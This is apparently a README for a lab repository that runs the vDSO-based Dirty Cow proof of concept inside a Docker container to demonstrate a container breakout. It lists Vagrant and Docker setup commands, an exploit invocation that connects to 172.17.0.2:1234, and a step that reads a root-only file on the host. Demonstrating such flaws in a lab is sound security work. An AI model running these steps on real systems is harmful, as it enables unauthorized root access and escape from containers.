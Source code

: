 # dirtycow-docker-vdso_1

This directory contains the necessary code to get the vdso based Dirty Cow POC working inside a docker container. 
All the really exciting stuff was done by Scumjr, see his POC repo over at https://github.com/scumjr/dirtycow-vdso.

To execute:
	vagrant up
	vagrant putty
	cd /home/vagrant/vDSO-exploit && sudo docker run -it -p 1234:1234 ubuntu-dirtycow /bin/sh

	note that we are a regular user inside the docker container (user: hacker)

	/tmp/foo/0xdeadbeef 172.17.0.2:1234

Wait a few minutes for the exploit to launch 

Show the breakout of the container by catting the root file on the host OS:
	cat /root/this_is_the_host
	
  